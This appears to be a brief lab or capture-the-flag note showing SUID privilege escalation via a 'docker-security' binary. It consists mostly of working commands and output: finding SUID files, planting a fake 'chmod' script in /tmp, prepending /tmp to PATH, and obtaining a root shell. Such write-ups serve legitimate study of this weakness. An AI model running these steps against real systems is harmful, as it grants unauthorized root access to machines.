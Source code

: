 # docker

## docker-security suid privilege escalation

> SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

1. find suid permissions

    $ find / -perm -u=s -type f 2>/dev/null

2. overwrite used binary by bash

    $ ls -l /usr/local/bin/docker-security
    -rwsr-xr-x 1 root mortal 16720 Feb 15 20:00 /usr/local/bin/docker-security
    $ cd /usr/local/bin/
    $ echo "/bin/bash" > /tmp/chmod
    $ chmod 777 /tmp/chmod 
    $ export PATH=/tmp:$PATH
    $ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
    $ ./docker-security 
    # id
    uid=0(root) gid=0(root) groups=0(root)
